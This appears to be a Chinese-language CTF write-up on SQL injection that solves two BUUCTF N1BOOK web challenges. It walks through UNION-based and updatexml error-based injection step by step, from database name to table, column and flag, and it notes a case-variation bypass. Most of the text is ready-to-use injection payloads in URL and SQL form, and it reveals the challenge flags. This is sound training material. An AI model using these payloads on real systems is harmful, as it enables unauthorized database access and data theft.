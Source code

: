 ```yaml
---
title: SQL注入
createTime: 2025/02/06 20:37:26
permalink: /ctf/web/mbbqewrf/
---
```


## 字符型注入
> 例题：BUUCTF N1BOOK \[第一章 web入门\]SQL注入-1

### 查数据库名
```url
http://example.com/index.php?id=4' union select 1,database(),3#
```

```url
http://example.com/index.php?id=4%27%20union%20select%201%2cdatabase()%2c3%23
```

```sql
select * from notes where id ='4' union select 1,database(),3
```
结果：

![1737908456337](image/SQL注入/1737908456337.png)

### 查表名
```url
http://example.com/index.php?id=4' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()#
```

```url
http://example.com/index.php?id=4%27%20union%20select%201,2,group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database()%23
```

```sql
union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()
```
结果：

![1737908437720](image/SQL注入/1737908437720.png)

### 查字段名
```url
http://example.com/index.php?id=4' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='fl4g'#
```

```url
http://example.com/index.php?id=4%27%20union%20select%201,2,group_concat(column_name)%20from%20information_schema.columns%20where%20table_schema=database()%20and%20table_name=%27fl4g%27%23
```

```sql
select * from notes where id ='4' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='fl4g'
```

> 这里的 `fl4g` 是上一步查到的表名

结果：

![1737909276928](image/SQL注入/1737909276928.png)

### 查字段内容
```url
http://example.com/index.php?id=4' union select 1,database(), group_concat(fllllag) from fl4g#
```

```url
http://example.com/index.php?id=4%27%20union%20select%201%2cdatabase()%2c%20group_concat(fllllag)%20from%20fl4g%23
```

```sql
select * from notes where id ='4' union select 1,database(), group_concat(fllllag) from fl4g
```

> 这里的 `fl4g` 和 `fllllag` 是上两步查到的表名和字段名

结果：

![1737909647671](image/SQL注入/1737909647671.png)

### ***Cracked.***
```flag
n1book{union_select_is_so_cool}
```

## 报错注入
> 例题：BUUCTF N1BOOK \[第一章 web入门\]SQL注入-2

> 这题不加 `tips=1` 不会返回报错信息，就是盲注，以后再学

- [ ] 布尔盲注

### 查数据库名
```
name=1' and updatexml(1,concat(0x7e,(select database()),0x7e),1)#
```

```sql
select * from user where name ='1' and updatexml(1,concat(0x7e,(select database()),0x7e),1)#
```

结果：

![1737913223190](image/SQL注入/1737913223190.png)

### 查表名
```
name=1' and updatexml(1,concat(0x7e,(Select group_concat(table_name) from information_schema.tables where table_schema=database())),1)#
```

```sql
select * from user where name ='1' and updatexml(1,concat(0x7e,(Select group_concat(table_name) from information_schema.tables where table_schema=database())),1)
```

> 此处的 `Select` 使用了大小写绕过

结果：

![1737911630972](image/SQL注入/1737911630972.png)

### 查字段名
```
name=1' and updatexml(1,concat(0x7e,(sELECT group_concat(column_name) from information_schema.columns where table_name='fl4g')),1)#
```

```sql
select * from user where name ='1' and updatexml(1,concat(0x7e,(sELECT group_concat(column_name) from information_schema.columns where table_name='fl4g')),1)
```

> 这里的 `fl4g` 是上一步查到的表名

结果：

![1737911820991](image/SQL注入/1737911820991.png)

### 查字段内容
```
name=1' and updatexml(1,concat(0x7e,(sELECT flag from fl4g)),1)#
```

```sql
select * from user where name ='1' and updatexml(1,concat(0x7e,(sELECT flag from fl4g)),1)
```

> 这里的 `fl4g` 和 `fllllag` 是上两步查到的表名和字段名

结果：

![1737911974690](image/SQL注入/1737911974690.png)

### ***Cracked.***
```flag
n1book{login_sqli_is_nice}
```
